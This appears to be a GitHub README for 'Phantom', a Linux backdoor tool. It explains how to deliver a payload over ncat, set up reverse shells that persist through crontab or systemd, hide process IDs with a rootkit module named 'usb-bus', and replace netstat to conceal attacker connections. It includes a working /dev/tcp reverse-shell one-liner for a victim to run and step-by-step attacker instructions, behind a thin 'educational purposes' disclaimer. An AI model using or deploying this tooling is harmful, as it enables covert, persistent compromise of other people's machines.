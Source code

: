 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

*Syntax*:	phantom-init	ip 1st-port 2nd-port
*	ip: the attacker's ip
*	1st-port: the port that listens for connections to deliver the payload
*	2nd-port: the port that listens for the backdoor shells after delivering the payload

## Files

*	phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

*	payload: This is the file that gets executed when the target connects to the listening ncat 1st-port. It does the following:
	* If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
	backdoor shell to the 2nd-port.
	* If the user connecting is root it creates a systemd service which executes a script, continuously trying to
	create a backdoor bash shell to your machine (2nd-port). It also creates a systemd service which executes a script,
	hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
	creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
	and the systemd services themselves. It is also persistent through reboots because the second systemd service
	(the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote
	connections to the specified ip and 2nd-port.

*	phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

You have to somehow make the target execute this code, so that he connects to the 1st-port:
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'
ip and 1st-port are the ones specified above.

## Order of execution

* Before delivering the payload:
	1. Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
	1. Execute phantom-firewall as root, so it can modify the firewall rules.
	2. Create an ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.	Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2. 	Close the ncat listening process so all the connections get closed with it.
3. 	Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
		This is needed if you want to open ncat again and for the target to be able to connect to you again, otherwise a nftables rule is gonna
		block him.

### Contact Information

Konstantinos Sarantopoulos

konsaranto@gmail.com
